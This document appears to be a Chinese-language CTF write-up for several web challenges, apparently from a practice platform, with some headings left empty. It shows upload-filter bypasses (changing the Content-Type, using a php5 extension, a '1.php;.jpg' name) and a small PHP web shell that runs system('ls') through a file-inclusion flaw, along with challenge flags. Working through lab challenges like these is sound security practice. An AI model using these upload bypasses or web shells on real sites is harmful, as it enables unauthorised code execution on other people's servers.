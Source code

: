 ```php
  else
  {
    echo "<p>sorry!</p>";
  }
}
?>
```
- 根据hint 访问http://123.206.87.240:8002/web8/flag.txt 显示文本flags
  - 阅读代码可知f为fn的内容 ac===f时 输出flag
  - 构造payload`?ac=flas&fn=flag.txt`
- flag{3cfb7a90fc0de31}

## 细心
题目：想办法变成admin
打开一看还以为题目挂了 然而看下http 是200
- 看下源码啥也没有 好久没扫了 发现有robots.txt
```
User-agent: *
Disallow: /resusl.php
```
- 访问resusl.php 提示`if ($_GET[x]==$password) 此处省略1w字`
- 结合admin提示？`?x=admin`成功了？？
- flag(ctf_0098_lkji-s)

## 求getshell
题目很明显 打开显示`My name is margin,give me a image file not a php`
可以上传文件 不让我上传php？我偏不
- 抓包 上传一个1.php
- Content-Type的multipart/form-data 任意字符改成大写绕过 
- Content-Type改成image/jpg
- filename=1.php5
- go可拿到key
- KEY{bb35dc123820e}

## INSERT INTO注入

## 这是一个神奇的登陆框

## 多次

## PHP_encrypt_1(ISCCCTF)

## 文件包含2
hint：文件包含
- 看源码发现upload.php  `file=upload.php`
- 可以上传文件 显示请上传jpgpnggif格式文件
- 构造文件 打印出目录文件名
```js
<script language=php>system("ls")</script>
```
保存为`1.php;.jpg` 上传成功
- 根据网页显示访问 ?file=upload/201908230711481901.jpg
- 显示`about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php`
- 看到txt文件访问`http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt`得出key
- SKCTF{uP104D_1nclud3_426fh8_is_Fun}

